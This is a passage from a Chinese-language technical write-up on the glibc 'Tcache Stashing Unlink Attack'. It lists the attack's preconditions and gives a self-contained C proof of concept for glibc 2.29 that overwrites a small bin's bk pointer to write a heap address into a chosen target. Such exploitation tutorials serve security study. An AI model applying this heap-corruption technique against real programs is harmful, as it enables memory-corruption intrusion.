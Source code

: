 此时small bin 2的bk已经修改成目标地址了

[4]:

![img](D:\github\De4dCr0w.github.io\image\2020-07-20-Tcache-Stashing-Unlink-Attack利用思路\7.png)

在目标地址中写入bin地址，上图为unlink 到tcache的过程。

**总结：**

Tcache stashing unlink attack 利用的条件：

（1）tcache 某个size上要刚好有一个留空

（2）要有两个该size的small bin

（3）能对small bin的bk进行改写

（4）需要泄露堆和libc ，泄露libc用于利用

### demo代码（适用与ubunut 19.04 ，glibc 2.29）：

```c
#include <stdio.h>
#include <stdlib.h>

int main()
{
    unsigned long *target = calloc(1, 0x200);
    unsigned long *p1;
    for(int i = 0; i < 6; i++){
        p1 = calloc(1, 0xf0);
        free(p1);       
    }

    unsigned long heap_base = *p1-0x870;
    printf("heap_base:0x%lx\n", heap_base);

    printf("before attacking,target[0] = 0x%lx\n", *target);
    for(int i = 0; i < 7; i++){
        p1 = calloc(1, 0x400);
        free(p1);       
    }
    // small bin 1
    unsigned long *p2 = calloc(1, 0x400);
    calloc(1, 0x200);
    free(p2);
    calloc(1, 0x300);
    calloc(1, 0x300);

    // small bin 2
    unsigned long *p3 = calloc(1, 0x400);
    calloc(1, 0x200);
    free(p3);
    calloc(1, 0x300);
    calloc(1, 0x300);

    p3 = p3 + (0x300/8) + 0x3;
    *p3 = heap_base + 0x250; //target-(0x10/8)  
    
    calloc(1, 0xf0);

    printf("after attacking,target[0] = 0x%lx\n", *target);
    return 0;
}
```
